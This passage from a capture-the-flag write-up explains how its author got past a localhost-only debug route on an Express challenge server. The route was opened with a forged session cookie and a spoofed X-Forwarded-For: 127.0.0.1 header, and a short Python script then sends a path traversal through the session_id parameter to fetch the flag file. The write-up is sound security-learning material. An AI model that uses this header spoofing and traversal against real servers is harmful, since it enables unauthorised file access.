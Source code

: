 I then placed the cookie in my browser, and it worked! This is one of those aspects that didn't change when booting new instances, so once I had the cookie prepared I could just insert it any time.

Now, I tried using the `/debug/files` route, but still got `Forbidden: Development access only`. I then remembered what was needed for this to work:

> Will only allow passage if **both** of these conditions are met:
>
> > the session `userId` attribute is `develop`
>
> > the request IP is `127.0.0.1`
	
I already have the first, but how can I make the second happen? Turns out there was a very subtle line (well, at least for me) in the `server.js` file:

```
app.set('trust proxy', true);
```

Paraphrasing from [here](https://expressjs.com/en/guide/behind-proxies.html), what this essentially means is that the server interprets whatever is in the `X-Forwarded-For` header as the true IP of the client making a request. Thus, I could simply attach this header with the `127.0.0.1` value, to make it seem as if I made the request from localhost and pass the middleware.

I tried this and it effectively worked, so I could actually see files of my other sessions. So the final step was trying the path traversal to finally get the file I wanted. Since the process was already getting tedious, I coded this in Python to make a request to `/`, ask for the random hex chars, and output the final link:

```py
import requests

cookies = {
    "connect.sid": "s%3AamwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE"
}

headers = {
    "X-Forwarded-For": "127.0.0.1"
}

url = input("url: ")
dir = "../../../../../../../"

res1 = requests.get(url + "/debug/files", params={"session_id": dir}, cookies=cookies, headers=headers)

print(res1.text)

dir += input("flag dir: ") + "/"

print(f"{url}/debug/files?session_id={dir}")
```

Arguably it's not the best because I still have to manually go to the browser, set the cookie and request header, and download the file, but it worked for my purposes. After visiting the link and doing the extra steps, the server at last sent me the flag file, so I downloaded it and got:
